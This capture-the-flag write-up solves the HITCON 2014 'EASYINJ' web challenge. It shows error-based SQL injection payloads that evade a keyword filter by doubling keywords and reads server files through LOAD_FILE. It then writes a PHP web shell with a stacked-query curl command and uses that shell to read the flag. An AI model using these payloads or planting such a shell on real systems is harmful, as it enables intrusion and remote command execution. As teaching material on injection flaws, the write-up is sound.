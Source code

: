 # HITCON CTF 2014: EASYINJ

**Category:** Web
**Points:** 300
**Description:**

> http://54.238.22.67:10653/

## Write-up

When accessing the URL posted in the description, we are immediately forwarded to `http://54.238.22.67:10653/index.php?ip={your public IP address here}`, which displays the output of `phpinfo()`. As there is just one parameter, and the name of the challenge indicates this might be some sort of injection challenge, the first obvious step is to check for MySQL injection. Loading `http://54.238.22.67:10653/index.php?ip='` shows the following error message:

```
Warning: PDO::query() [pdo.query]: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')' at line 1 in Z:\AppServ\www\index.php on line 43
```

Now that we know there’s SQL injection, what useful things can we do with this? We can’t see any output of the query, other than the error messages, so things like `UNION SELECT` won’t be any use. After trying a few things, I found that certain keywords appeared to be filtered. For instance, `http://54.238.22.67:10653/index.php?ip='foo.bar` returns:

```
Warning: PDO::query() [pdo.query]: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'foobar')' at line 1 in Z:\AppServ\www\index.php on line 43
```

This shows that `foo.bar` is replaced by `foobar`, meaning that dots were filtered. Some keywords were filtered as well: for instance, `http://54.238.22.67:10653/index.php?ip='fooSELECTbar` gives the same warning as above, meaning that `SELECT` is removed from the query. Luckily the stripping of keywords wasn’t recursive, so in order to get a `SELECT`, you could request `http://54.238.22.67:10653/index.php?ip='fooSSELECTELECTbar`, which would show the following warning:

```
Warning: PDO::query() [pdo.query]: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'fooSELECTbar')' at line 1 in Z:\AppServ\www\index.php on line 43
```

With all this information, we are ready to start extracting some data. It is possible to do this via a time-based attack, using constructs like `SELECT IF (SUBSTR(version(),1,1) = '5', SLEEP(10), 1)`, but this would take ages. [This blog post](http://www.mathyvanhoef.com/2011/10/exploiting-insert-into-sql-injections.html) nicely describes how this can be done by generating errors containing the output of a query. I won’t go into detail on how this works exactly, but do refer to the blog post if you’re interested.

Using this error-based technique, we can construct our payload like this:

```
http://54.238.22.67:10653/?ip='-(SSELECTELECT 1 FFROMROM (SSELECTELECT COUNT(1),CONCAT((SSELECTELECT 'test'),FLOOORR(RAANDND(0)*2)) x FFROMROM log GROUP BY x) t1)-'
```

This returns:

```
 Warning: PDO::query() [pdo.query]: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'test1' for key 1 in Z:\AppServ\www\index.php on line 43
```

Note that the error message contains the result of our subquery, namely `test`. We can also run some more useful queries, such as `version()` (result: `5.0.51b-community-nt-log`), `user()` (result: `root@localhost`). Since the current MySQL user is root, we can most likely read files as well, so let’s try it for the `index.php` file:

```
http://54.238.22.67:10653/?ip='-(SSELECTELECT 1 FFROMROM (SSELECTELECT COUNT(1),CONCAT((SSELECTELECT LLOAD_FILEOAD_FILE(0x5a3a2f417070536572762f7777772f696e6465782e706870)),FLOOORR(RAANDND(0)*2)) x FFROMROM log GROUP BY x) t1)-'
```

*Note: Since dots are removed, `Z:/AppServ/www/index.php` is encoded as `0x5a3a2f417070536572762f7777772f696e6465782e706870`.*

This returns:

```
Warning: PDO::query() [pdo.query]: SQLSTATE[21000]: Cardinality violation: 1242 Subquery returns more than 1 row in Z:\AppServ\www\index.php on line 43
```

We can fix this by doing `SUBSTR(LOAD_FILE(...),1,40)`, which shows the first 40 bytes of the `index.php` file: `<?php if (!isset($_SESSION)) { session`. By increasing the offset of `SUBSTR()`, it’s possible to extract the contents of [the complete `index.php` file](index.php).

The `index.php` file shows that `phpinfo()` entries are written to `log_guess^2/{$_SERVER['REMOTE_ADDR']}`. This gives us a directory that might be writable – let’s try uploading a shell there.

Since the query we’re injecting into is `INSERT INTO`, we can’t directly use `SELECT … INTO OUTFILE`. However, it is possible to use stacked queries for this purpose. Because dots are filtered, we will need to use prepared statements to write to a `.php` file. This what I used to write a shell to `Z:/AppServ/www/log_guess^2/inject-this.php`:

```
$ cat query.sql
SELECT '<?php if(isset($_GET["x"])){echo "<pre>".shell_exec($_GET["x"])."</pre>";} ?>' INTO OUTFILE 'Z:/AppServ/www/log_guess^2/inject-this.php'

$ xxd -p < query.sql | tr -d '\n'
0x53454c45435420273c3f70687020696628697373657428245f4745545b2278225d29297b6563686f20223c7072653e222e7368656c6c5f6578656328245f4745545b2278225d292e223c2f7072653e223b7d203f3e2720494e544f204f555446494c4520275a3a2f417070536572762f7777772f6c6f675f67756573735e322f696e6a6563742d746869732e706870270a

$ curl -s "http://54.238.22.67:10653/?ip=');SET @a=0x53454c45435420273c3f70687020696628697373657428245f4745545b2278225d29297b6563686f20223c7072653e222e7368656c6c5f6578656328245f4745545b2278225d292e223c2f7072653e223b7d203f3e2720494e544f204f555446494c4520275a3a2f417070536572762f7777772f6c6f675f67756573735e322f696e6a6563742d746869732e706870270a;PREPARE st FFROMROM @a;EXECUTE st;SSELECTELECT ('"
```

With this shell we can easily find the flag using `http://54.238.22.67:10653/log_guess^2/inject-this.php?x=dir Z:\`. This shows that the flag is located in `Z:\key_39uti2jb.txt`. Using `type` (`http://54.238.22.67:10653/log_guess%5E2/inject-this.php?x=type%20Z:\key_39uti2jb.txt`), we get the flag: `HITCON{a2f7af2ba385ea71bfa597f3aa692368}`.

## Other write-ups and resources

* [Exploiting `INSERT INTO` SQL injections ninja-style](http://www.mathyvanhoef.com/2011/10/exploiting-insert-into-sql-injections.html)
